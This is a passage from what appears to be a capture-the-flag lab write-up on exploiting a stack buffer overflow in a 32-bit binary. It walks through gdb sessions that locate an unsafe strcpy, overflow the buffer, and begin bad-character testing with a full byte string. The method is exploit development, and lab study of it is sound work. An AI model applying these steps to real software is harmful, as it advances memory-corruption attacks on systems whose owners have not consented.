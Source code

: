 ```sh
   0x00000736 <+169>:	mov    -0x4(%ebp),%ebx
   0x00000739 <+172>:	leave  
   0x0000073a <+173>:	ret    
```

We can see that the function uses `strcpy` which is an unsafe memory function as it does not do a bound check like `strncpy`. We can also see that the buffer starts at `-0x808(%ebp)`. Lets set a break point after this instruction and inspect the stack to confirm this. 

```sh
(gdb) break *leavemsg+123
Breakpoint 1 at 0x708
(gdb) run $(python -c print'"A"*2000')
Starting program: /home/htb-student/leave_msg $(python -c print'"A"*2000')

Breakpoint 1, 0x56555708 in leavemsg ()
(gdb) x/64bx $ebp-0x808 
0xffffc4d0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffc4d8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffc4e0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffc4e8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffc4f0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffc4f8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffc500:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffc508:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
```

Looks like it worked and we can clearly see the As inside of the buffer lets now start finding bad characters by instead writing the following string of hex instead of As:
```sh
(gdb) break *leavemsg+123
Breakpoint 1 at 0x708
(gdb) run $(python -c print'"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"')
(gdb) x/256bx $ebp-0x808
0xffffcb90:	0x01	0x02	0x03	0x04	0x05	0x06	0x07	0x08
0xffffcb98:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffcba0:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffcba8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffcbb0:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffcbb8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
```

Instead of showing the correct characters we placed in order we get some of them right and some others are gone or modified, lets remove the first bad characters. We can see that the first character is wrong as it should have the Null terminator `\x00` but it does not, so lets add that to our bad character list and remove it from the testing list, we can also discard `\09` too as it does not appear after `\08` lets try again with these two removed.
